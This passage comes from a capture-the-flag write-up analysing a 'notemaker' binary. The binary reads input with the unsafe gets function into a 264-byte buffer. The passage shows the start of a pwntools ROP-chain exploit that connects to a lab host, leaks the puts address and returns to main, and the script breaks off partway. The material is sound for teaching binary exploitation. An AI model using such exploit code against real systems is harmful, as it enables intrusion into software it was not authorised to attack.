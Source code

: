 ![](attachments/Clipboard_21.png)


In a nutshell:
* creates buffer for input (local_118 with 264 Bytes)
* checks if output file exists and is writable (/home/webmaster/notes.txt)
* receives user input with vulnerable gets function and stores it to local_118 variable
* writes output into file

What we need to do now is to create the exploit by using a technique which is called ROP Chaining. 

There is a very good youtube tutorial for an exactly similar CTF challenge by John Hammond: https://www.youtube.com/watch?v=i5-cWI_HV8o

Since I wouldn't be able to explain it better than he does, I'll just show the resulting exploit code which you will get by following his steps and adapting them for our scenario:

~~~py
#!/usr/bin/python3

from pwn import *

context.arch = 'amd64'

offset = 280

elf = ELF("./notemaker")
#p = elf.process()
p = remote("10.0.2.5", 9999)

rop = ROP(elf)
rop.call(elf.symbols["puts"], [elf.got['puts']])
rop.call(elf.symbols["main"])

p.recvuntil("Start typing >> ")

~~~